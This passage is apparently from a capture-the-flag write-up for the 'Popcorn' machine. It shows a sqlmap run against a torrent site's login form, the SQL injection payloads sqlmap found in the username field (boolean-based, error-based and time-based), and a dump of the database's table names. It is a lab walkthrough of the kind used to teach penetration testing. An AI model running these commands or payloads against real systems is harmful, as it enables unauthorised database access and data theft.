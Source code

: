 ```
sqlmap -u http://$POPCORN/torrent/login.php --data="username=pwnd&password=pwnd" --method POST --dbms MySQL --thread=5 --tables
```

quickly the tool comes back with

```
[INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
```

I up the level and risk to 1, but avoid following any redirects to get:

```
[INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable
```

I can work with this to manualy exploit if needed, I let the tests and eventually after trying a few different interactive options get the following results:

```
sqlmap identified the following injection point(s) with a total of 380 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=pwnd' OR NOT 2740=2740#&password=pwnd

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=pwnd' AND (SELECT 8745 FROM(SELECT COUNT(*),CONCAT(0x716a786b71,(SELECT (ELT(8745=8745,1))),0x7162716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DGhR&password=pwnd

    Type: time-based blind
    Title: MySQL <= 5.0.11 AND time-based blind (heavy query)
    Payload: username=pwnd' AND 5766=BENCHMARK(5000000,MD5(0x69424279))-- wnNK&password=pwnd
```

Importantly I get the dB details:

```
Database: torrenthoster
[8 tables]
+---------------------------------------+
| ban                                   |
| categories                            |
| comments                              |
| log                                   |
| namemap                               |
| news                                  |
| subcategories                         |
| users                                 |
+---------------------------------------+

Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
```